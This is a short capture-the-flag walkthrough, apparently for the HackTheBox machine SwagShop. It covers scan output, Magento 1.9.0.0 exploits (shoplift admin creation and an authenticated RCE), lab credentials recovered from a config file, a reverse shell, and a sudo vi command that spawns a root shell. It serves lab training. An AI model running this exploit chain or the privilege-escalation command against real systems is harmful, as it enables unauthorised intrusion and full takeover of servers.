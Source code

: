 Started with a nmap scan
```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
```
There is a domain linked to the website `http://swagshop.htb/` going to start with a subdomain scan did not find any subdomains and when going to the site its running `Magento` going to also start a gobuster scan 
```
/media                (Status: 301) [Size: 312] [--> http://swagshop.htb/media/]
/index.php            (Status: 200) [Size: 16593]
/includes             (Status: 301) [Size: 315] [--> http://swagshop.htb/includes/]
/lib                  (Status: 301) [Size: 310] [--> http://swagshop.htb/lib/]
/install.php          (Status: 200) [Size: 44]
/app                  (Status: 301) [Size: 310] [--> http://swagshop.htb/app/]
/js                   (Status: 301) [Size: 309] [--> http://swagshop.htb/js/]
/api.php              (Status: 200) [Size: 37]
/shell                (Status: 301) [Size: 312] [--> http://swagshop.htb/shell/]
/skin                 (Status: 301) [Size: 311] [--> http://swagshop.htb/skin/]
/cron.php             (Status: 200) [Size: 0]
/LICENSE.html         (Status: 200) [Size: 10679]
/var                  (Status: 301) [Size: 310] [--> http://swagshop.htb/var/]
/errors               (Status: 301) [Size: 313] [--> http://swagshop.htb/errors/]
/mage                 (Status: 200) [Size: 1319]
```
running `magescan` we find its version `1.9.0.0` there is a exploit for this version called `magento shoplift` and it will give us access to the admin account of the site we can find a script on github and used chatgpt to make it python3 now we can run the script and it makes us a admin account there is also a authenticated RCE for this version as well https://www.exploit-db.com/raw/37811 the exploit needs some modification and gives us the file to look at and we get some creds 
```
<username>root</username>
<password>fMVWh7bDHpgZkyfqQXreTjU9</password>
```
and after we fixed that rce script we can exacute commands on the host now and get a reverse shell as `www-data` if we run `sudo -l` we can edit any file in the `/var/www/html` folder and get root `sudo /usr/bin/vi /var/www/html/php.ini.sample -c ':!/bin/bash'` and now we are root 